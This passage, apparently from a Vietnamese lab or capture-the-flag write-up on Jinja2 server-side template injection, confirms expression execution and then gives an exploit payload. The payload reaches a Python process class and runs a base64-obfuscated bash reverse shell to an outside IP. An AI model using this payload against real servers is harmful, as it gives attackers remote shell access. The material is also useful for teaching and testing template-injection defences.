 ![](Images/27.png)

- Kết quả phép toán được thực thi

![](Images/28.png)

- https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.html?highlight=SSTI#jinja2-ssti



- Tạo được payload sau để khai thác:

```bash
{{"".__class__.__mro__[1].__subclasses__()[415]("echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjguMzEuMjA5LzQ0NDQgMD4mMQ== | base64 -d | bash",shell=True,stdout=-1).communicate()}}
```
